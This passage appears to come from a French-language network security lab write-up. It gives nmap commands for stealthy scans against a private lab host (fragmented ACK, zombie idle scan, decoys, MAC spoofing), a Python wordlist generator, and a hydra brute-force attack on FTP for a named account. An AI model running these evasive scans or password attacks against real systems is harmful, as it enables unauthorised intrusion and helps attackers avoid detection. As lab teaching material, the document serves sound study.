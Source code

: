 
- 3. Balayage simple fragmenté et en ACK.
```bat
nmap -f --scanflags ACK 192.168.137.101
```  

- 4. Balayage furtif via un zombi
 
**Etape 1 : trouver un zombi**
```bat
nmap --script=ipidseq -p 80 -T5 -v reseau_cible/24
```

**Etape 2 : choisir un zombi** 
  Un zombi est identifié par le champ **' ipidseq : Incremental ! '**
  

**Etape 3 : lancer le scan**
```bat
nmap -sI <ip_zombi> 192.168.137.101
```


- 5. Balayage furtif avec des adresses utilisées dans le plan d’adressage en cours d’utilisation 
(159.Y/X/X.).

```bat
nmap -D 159.Y/X/X 192.168.137.101
```

- 6. Balayage avec un spoof-mac d’une adresse active sur le plan d’adressage en cours
  
**Etape 1 : trouver une adresse mac**
```bash
arp -a
``` 

**Etape 2 : lancer le spoof-mac**
```bat
nmap -T4 --spoof-mac <adresse_mac> 192.168.137.101
```



- 7. Attaque par brute force sur le service Ftp.

Script python pour générer la wordlist import itertools
```python
characters = 'abcdefghijklmnopqrstuvwxyz'
words = [''.join(i) for i in itertools.product(characters, repeat=4)]

with open('four_character_dictionary.txt', 'w') as f:
    for word in words:
        f.write(word + '\n')
```
Commande pour brute force avec hydra: 
```bat
hydra -l aethelwulf -P /usr/share/wordlists/four_character_dictionary.txt ftp://192.168.137.101
```
Les logs brute force dans la BD